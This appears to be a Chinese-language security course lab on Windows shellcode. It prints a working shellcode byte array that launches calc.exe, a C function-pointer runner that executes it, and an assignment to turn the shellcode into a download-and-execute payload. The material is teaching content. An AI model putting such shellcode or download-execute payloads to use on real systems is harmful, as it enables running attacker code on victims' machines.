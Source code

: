 # Shellcode

## 一、实验要求
* 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA

## 二、实验内容
### 代码解读
```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
* 这一段代码用到了一个较为高级的C语言语法，`函数指针`。定义了一个函数指针变量，func。这个函数指针的变量类型是 int(*)()。表示返回值是int，参数列表为空的一个函数。在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了，就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。
* 现在VS中建一个空工程，把###########后整个C语言部分复制到VS中。然后编译，运行。      
![](pic/code2.png)      